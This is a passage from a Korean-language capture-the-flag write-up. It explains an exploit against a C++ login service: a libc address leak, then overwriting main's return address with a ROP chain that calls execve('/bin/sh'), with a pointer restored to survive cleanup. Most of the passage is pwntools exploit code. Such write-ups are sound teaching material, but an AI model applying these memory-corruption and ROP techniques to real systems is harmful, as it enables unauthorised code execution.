 주의할 것은 C++이라서 그런지 사용하는 라이브러리가 많아 glibc 영역을 잘 찾아 가져와야한다.
``` python
    logout(s)
    for _ in range(0xa0):
        login(s, b"Welcome!", b"Welcome@")
        logout(s)
    login(s, b"Welcome!", ml + b"\x00\x00")
    r = print_info(s)
    libc = u64(r[0xcc:0xd4])
    lib.address = libc - 0x29d90
    log.info(f"libc : {hex(lib.address)}")
```

### RIP control
이제 stack 주소를 알고있으니 `main()`의 return address를 덮어서 ROP 가젯들을 실행한 뒤 `execve`를 실행하게끔 payload를 작성했다.

다만 `main()` 종료 직전에 호출되는 `free_db_24FBA()`에서 각 `user` 정보들을 저장한 객체들을 해제하기 때문에 AAW를 위해 바꿔둔 `admin->pw_ptr`을 원복시켜야 한다.
``` c
__int64 __fastcall free_db_24FBA(__int64 user_db)
{
  ...
  if ( user_db )
  {
    for ( i = user_db + 0xD00; ; free_strings_F406(i) )
    {
      result = user_db;
      if ( i == user_db )
        break;
      i -= 0x68LL;
    }
  }
  return result;
}
```
따라서 다음과 같이 paylaod를 작성했다.
``` python
    # change admin->pw to point return address of main
    ret = stack + 0xd98
    change_pw(s, p64(ret) + p64(0x8))
    
    # overwrite return address
    logout(s)
    pop_rdi_ret = lib.address + 0x2a3e5
    pop_rsi_ret = lib.address + 0x2be51
    pop_rdx_rbx_ret = lib.address + 0x904a9
    payload = p64(pop_rdi_ret)
    payload += p64(next(lib.search(b"/bin/sh")))
    payload += p64(pop_rsi_ret)
    payload += p64(0)
    payload += p64(pop_rdx_rbx_ret)
    payload += p64(0)
    payload += p64(0)
    payload += p64(lib.symbols["execve"])
    login(s, b"admin", p64(libc))
    change_pw(s, payload)

    # restore admin->pw
    logout(s)
    login(s, b"Welcome!", p64(ret) + p64(len(payload)))
    change_pw(s, p64(stack) + p64(0x8))
```
